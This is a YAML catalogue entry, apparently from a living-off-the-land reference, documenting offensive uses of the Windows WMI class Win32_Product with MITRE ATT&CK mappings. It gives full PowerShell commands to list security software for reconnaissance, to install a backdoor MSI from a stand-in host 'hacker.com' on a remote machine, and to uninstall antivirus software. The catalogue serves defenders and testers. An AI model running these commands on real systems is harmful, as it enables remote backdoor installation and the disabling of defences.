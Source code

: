 ```yaml
---
Name: Win32_Product
Description: Represent products as they are installed by MSI
Updated: 2023-08-25
Toolsets:
  - Builtin
  - CIMSession
Commands:
  - Command: Get-CimInstance -ClassName Win32_Product -CimSession $s | Select-Object Caption,Vendor,Version,InstallLocation
    Description: List installed software
    Usecases:
      - Perform reconnaissance on installed security software
    Function: Manage
    Comments:
      - 'Create CimSession `$s` using [New-CimSession](../../Cmdlets/New-CimSession/)'
      - 'Namespace: `ROOT\Cimv2`'
    MitreAttack:
      - T1218.007
  - Command: 'Invoke-CimMethod -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation="https://hacker.com/backdoor.msi"; Options=""; AllUsers=$true} -CimSession $s'
    Description: Install software
    Usecases:
      - Launch and install malicious .msi package
    Function: Execute
    Comments:
      - 'Create CimSession `$s` using [New-CimSession](../../Cmdlets/New-CimSession/)'
      - 'Namespace: `ROOT\Cimv2`'
      - .msi file needs to be available on the target host
    MitreAttack:
      - T1218.007
  - Command: 'Get-CimInstance Win32_Product -Filter ''Caption="Antivirus Software caption"'' -CimSession $s | Remove-CimInstance'
    Description: Uninstall software
    Usecases:
      - Remove security software
    Function: Manage
    Comments:
      - 'Create CimSession `$s` using [New-CimSession](../../Cmdlets/New-CimSession/)'
      - 'Namespace: `ROOT\Cimv2`'
    MitreAttack:
      - T1218.007
      - T1562.001
Resources:
  - https://blog.bitsadmin.com/living-off-the-foreign-land-windows-as-offensive-platform-part-3#execute-command-lines
Detections:
Contributors:
    - Name: Arris Huijgen
      Handle: bitsadmin
---
```

